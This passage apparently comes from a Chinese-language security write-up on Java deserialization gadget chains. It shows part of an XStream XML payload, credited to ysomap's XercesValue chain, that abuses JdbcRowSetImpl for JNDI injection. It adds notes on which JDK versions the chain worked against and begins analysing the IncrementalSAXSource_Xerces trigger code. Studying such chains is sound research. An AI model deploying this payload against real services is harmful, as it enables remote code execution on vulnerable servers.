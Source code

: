 ```xml
                  <params/>
                </default>
              </javax.sql.rowset.BaseRowSet>
              <com.sun.rowset.JdbcRowSetImpl>
                <default/>
              </com.sun.rowset.JdbcRowSetImpl>
            </fPullParserConfig>
            <fConfigSetInput>
              <class>com.sun.rowset.JdbcRowSetImpl</class>
              <name>setAutoCommit</name>
              <parameter-types>
                <class>boolean</class>
              </parameter-types>
            </fConfigSetInput>
            <fConfigParse reference='../fConfigSetInput'/>
            <fParseInProgress>false</fParseInProgress>
          </m__incrementalSAXSource>
          <m__walker>
            <nextIsRaw>false</nextIsRaw>
          </m__walker>
          <m__endDocumentOccured>false</m__endDocumentOccured>
          <m__idAttributes/>
          <m__textPendingStart>-1</m__textPendingStart>
          <m__useSourceLocationProperty>false</m__useSourceLocationProperty>
          <m__pastFirstElement>false</m__pastFirstElement>
        </m__dtm>
        <m__dtmIdentity>1</m__dtmIdentity>
      </m__DTMXRTreeFrag>
      <m__dtmRoot>1</m__dtmRoot>
      <m__allowRelease>false</m__allowRelease>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XString'>
      <m__obj class='string'>test</m__obj>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
</sorted-set>
```

需要注意的是：

1.  低版本的jdk中没有__overrideDefaultParser，在8u121上测试失败，8u172上成功，8u251测试失败，原因是高版本jdk jndi注入受JEP290影响。

### [](#分析-5 "分析")分析

这个也是ysomap中的XercesValue payload。

触发点在IncrementalSAXSource_Xerces.parseSome

```java
private boolean parseSome()
                throws SAXException, IOException, IllegalAccessException,
                                         java.lang.reflect.InvocationTargetException
        {
                // Take next parsing step, return false iff parsing complete:
                if(fConfigSetInput!=null)
                {
                        Object ret=(Boolean)(fConfigParse.invoke(fPullParserConfig,parmsfalse));
```
